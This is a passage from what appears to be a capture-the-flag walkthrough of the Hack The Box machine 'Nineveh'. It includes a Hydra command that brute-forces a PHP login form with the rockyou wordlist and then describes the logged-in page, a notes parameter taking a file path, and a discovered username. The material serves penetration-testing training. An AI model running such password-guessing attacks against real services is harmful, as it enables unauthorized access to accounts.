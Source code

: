 In this case the valid username is admin. Running Hydra against the login, while
targeting the admin user, successfully discovers the password.

```sh
hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

![](/Linux/Linux-Medium/Nineveh/Screenshots/passwd.png)

then when we login in we find  site underconstruction

![](/Linux/Linux-Medium/Nineveh/Screenshots/ninevah.png)

n addition to the home button which just shows the under construction image, there’s a Notes button which just adds `?notes=files/ninevehNotes.txt` to the same PHP page and displays this text under the image and a username `amrois`
